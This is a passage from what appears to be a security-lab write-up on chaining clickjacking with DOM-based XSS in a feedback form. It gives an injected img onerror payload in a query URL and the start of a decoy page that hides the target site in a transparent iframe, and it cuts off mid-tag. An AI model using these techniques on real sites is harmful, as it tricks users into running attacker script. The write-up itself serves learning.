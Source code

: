 ```
</body>
```

## Exploiting clickjacking vulnerability to trigger DOM-based XSS

Here we are presented with Submit feedback functionality.

We can notice that for form submition responsible is a script, that grabs all the input form fields, performs XHR request and the displays a success message using dangerous `innerHTML` function without input sanitization.

Additionally the form fields are getting populated from query params, so accessing `/feedback?name=alala&email=email@email.com` fills up `Name` and `Email` field already. Here the reflected input for input fields value is encoded and do not allow performing classic XSS with tag value escaping.

Since this is DOM XSS, and script tags will not be executed on adding them with `innerHtml` we can make use of `img`, which will be processed as usual.

Providing a name like `name=name<img src=X onerror=print()>` will cause `print()` function call when proccessed after `innerHtml` caused by form submission.

The endpoint prepared for form submission and code execution in one click:

```
/feedback?name=name<img src=X onerror=print()>&email=email@email.com&subject=subject&message=message
```

Webiste for the victim:

```
<head>
<style>
    #target_website {
        position:relative;
        width:1000px;
        height:1000px;
        opacity: 0.00005;
        z-index:2;
        top: -500;
        left: 0;
    }
    #decoy_website {
        position:absolute;
        width:100%;
        height:100%;
        z-index:1;
    }
    #click {
        position: relative;
        top: 300;
        left: 50;
        padding: 5;
        width: 100;
    }
</style>
</head>
<body>
<div id="decoy_website">
    <button type="button" id="click">
        Click me
    </button>
</div>
<iframe 
    id="target_website" 
```